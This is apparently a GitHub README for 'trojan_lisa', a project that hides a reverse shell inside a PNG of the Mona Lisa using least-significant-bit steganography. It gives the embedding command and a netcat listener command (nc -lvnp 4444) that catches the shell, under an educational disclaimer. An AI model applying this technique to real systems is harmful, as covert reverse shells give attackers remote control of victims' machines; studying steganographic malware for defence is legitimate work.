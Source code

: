 <p align="center">
  <img src="https://github.com/mmore21/trojan_lisa/blob/master/img/mona_lisa.png" width="100" />
</p>

<h2 align="center">trojan_lisa</h2>

Steganographic reverse shell embedded within the Mona Lisa.

## Description

Trojan Lisa is a steganographic engine that embeds a reverse shell within a PNG image of the Mona Lisa. Extracting and executing the code hidden within the image will provide the attacker with a reverse shell. The steganographic engine can be repurposed to store any form of data inside any PNG image given that there are enough pixels to store the encoded message.

The message is encoded by converting it to base64 and then to binary. Next, each pixel of the original image is iterated row-by-row. The message is integrated into the image by making the evenness or oddness of the bits match between the i-th pixel and the i-th bit of the message. In cases where the bits mismatch, the pixel of the image can be decremented by one to correct it. Note, the edge case when the pixel is already zero causes the pixel to be incremented by one instead. Afterward, the image can be reconstructed with the slightly adjust pixel values which now contain the encoded message. This process can be reversed by following the steps in the reverse order.

## Usage

Terminal 1

<pre>
python3 trojan_lisa/stego.py trojan_lisa/reverse_shell.py img/mona_lisa.png img/mona_lisa.png.trojanlisa

          .------.
         /        \
       .' /  \     `.
_______|____________|
 """""8""""""""""8888
     d8.-=. ,==-.:888b
     >8 `~` :`~' d8888
     88         ,88888
     88b. `-~  ':88888
     888b ~==~ .:88888
     88888o--:':::8888
     `88888| :::' 8888b
     8888^^'       8888b
    d888           ,%888b.
   d88%            %%%8--'-.
  /88:.__ ,       _%-' ---  -
      """::===..-'   =  --.  `
    

 _____           _                 __ _           
/__   \_ __ ___ (_) __ _ _ __     / /(_)___  __ _ 
  / /\| '__/ _ \| |/ _` | '_ \   / / | / __|/ _` |
 / /  | | | (_) | | (_| | | | | / /__| \__ | (_| |
 \/   |_|  \____/ |\__,_|_| |_| \____|_|___/\__,_|
              |__/                                
    
== Preparing the canvas...
== Painting La Joconde...
== Visiting Le Louvre...
== La simplicité est la sophistication suprême...
</pre>

Terminal 2

<pre>
nc -lvnp 4444                         
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 33390
</pre>

## Disclaimer

This project is intended solely for educational purposes to better understand various malware techniques. It is not to be distributed, modified, or used for any malicious intent. The authors of this repository take no responsibility for any malicious use of this malware.

## Resources

- https://docs.replit.com/tutorials/steganography
